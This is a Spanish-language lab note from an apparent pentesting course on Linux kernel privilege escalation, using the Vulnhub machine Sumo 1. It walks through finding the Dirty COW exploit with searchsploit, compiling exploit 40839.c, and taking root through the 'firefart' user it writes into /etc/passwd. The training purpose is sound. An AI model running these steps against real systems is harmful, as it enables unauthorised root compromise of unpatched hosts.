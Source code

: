 # Explotación del Kernel

Tags: #Linux #Kernel  #Escalada #Root #Privilegios 

El **kernel** es la parte central del sistema operativo Linux, que se encarga de administrar los recursos del sistema, como la memoria, los procesos, los archivos y los dispositivos. Debido a su papel crítico en el sistema, cualquier vulnerabilidad en el kernel puede tener graves consecuencias para la seguridad del sistema.

En versiones antiguas del kernel de Linux, se han descubierto vulnerabilidades que pueden ser explotadas para permitir a los atacantes obtener acceso de superusuario (**root**) en el sistema.

La elevación de privilegios se refiere a la técnica utilizada por los atacantes para obtener permisos elevados en el sistema, como superusuario (**root**), cuando solo tienen permisos limitados. Por ejemplo, un usuario con permisos limitados en el sistema podría utilizar una vulnerabilidad en el kernel para obtener acceso de superusuario y, posteriormente, comprometer el sistema.

Las vulnerabilidades del kernel pueden ser explotadas de varias maneras. Por ejemplo, un atacante podría aprovechar una vulnerabilidad en un controlador de dispositivo para obtener acceso al kernel y realizar operaciones maliciosas. Otra forma común en que se explotan las vulnerabilidades del kernel es mediante el uso de técnicas de desbordamiento de búfer, que permiten a los atacantes escribir código malicioso en áreas de memoria reservadas para el kernel.

Para mitigar el riesgo de vulnerabilidades del kernel, es importante mantener actualizado el sistema operativo y aplicar parches de seguridad tan pronto como estén disponibles.

A continuación, se os comparte el enlace a la máquina Sumo 1 de Vulnhub, la cual estaremos desplegando en esta clase para mostrar un ejemplo práctico de explotación del kernel:

- **Máquina Sumo 1**: [https://www.vulnhub.com/entry/sumo-1,480/](https://www.vulnhub.com/entry/sumo-1,480/)


## Kernel

* [Linux-Exploit-Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)   Este exploit esta enfocado a la explotación del Kernel.

```bash
❯ lsb_release -a                                               
❯ uname -a                                       # Para ver la Version e informacion del Kernel 

# 3.2.0-23 Version antigua de Kernel (Explotable)
```

```bash 
❯ searchsploit kernel 3.2                        # Nos muestra si la version del Kernel se puede explotar, ademas de salir Dirty Cow
❯ searchsploit dirty cow                         # Buscaremos la que sobre-escribe el /etc/passwd y es un script en 'c' y se acontece una 'race condition privilege escalation'
```

Nos transferimos el script en c
```bash 
❯ searchsploit -m linux/local/40839.c            # Movemos el exploit a nuestra maquina de atacante 
# El binario lo debemos de compilar en la maquina victima, pero si no nos deja lo tendremos que hacer en la nuestra y despues pasar el binario a la maquina victima 
❯ gcc -pthread 40839.c -o dirty -lcrypt          # Para compilar el binario en la maquina victima, dirty = nombre del archivo final ejecutable
```

Lo que hace este sploit es que por medio de la vulnerabilidad de 'race condition' crea un nuevo usuario hasta arriba del '/etc/passwd' y sustituye root por otro usuario llamado 'firefart' y la passwd es la que tu le indicas al script al momento de ejecutarlo.

![](Pasted%20image%2020230530142040.png)

Nota: A veces tarda un poco en que te regrese la consola. 

![](Pasted%20image%2020230530142007.png)


```bash 
❯ su firefart                     # Cambiamos de usuario y le colocamos la passwd que colocamos en el script
❯ whoami                          # Nos muestra que somos el usuario firefart
❯ id                              # Miramos que el id = 0, o sea que somos root 
```


Otras formas de explotar el Kernel 
```bash 
❯ searchsploit kernel privilege escalation     # Nos mostrara scripts para poder explotar el kernel
```